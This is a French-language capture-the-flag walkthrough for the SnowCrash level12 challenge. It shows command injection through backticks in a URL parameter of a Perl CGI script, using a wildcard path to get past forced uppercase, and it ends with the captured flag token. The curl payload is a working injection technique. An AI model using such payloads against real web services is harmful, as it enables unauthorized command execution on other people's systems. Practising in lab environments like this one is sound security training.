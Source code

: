 ls -la
level12.pl
quand on le cat on voit qu'il prend un param x et y
on peut voir que dans le code on a juste besoin d'arriver a @output qui va nous permettre de faire notre getflag
on vois que le output utilise la variable xx qui est le param x
donc on doit jouer avec x
on voit que x et mis en maj
et apres on voit que si on a * il va nous chercher ce qu'il correspont comme quand on fait git add *.c

donc avec ca on doit lui faire lancer un fichier /tmp/script
qui contient:
getflag > /tmp/result

on va try
level12@SnowCrash:~$ echo "getflag > /tmp/result2" > /tmp/script2
level12@SnowCrash:~$ cat /tmp/script2
getflag > /tmp/result2
level12@SnowCrash:~$ chmod 777 /tmp/script2

ok ensuite faut le lancer

level12@SnowCrash:~$ curl 'localhost:4646?x=`/tmp/script2`'
..level12@SnowCrash:~$ cat /tmp/result2

j'avait oublier qu'il passer tout en maj
mais si on met tmp en maj ca ne marche plus donc a va utiliser le *

echo "getflag > /tmp/result2" > /tmp/SCRIPT2

on va re try
level12@SnowCrash:~$ curl 'localhost:4646?x=`/*/SCRIPT2`'
level12@SnowCrash:~$ cat /tmp/result2
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
LET'S GO 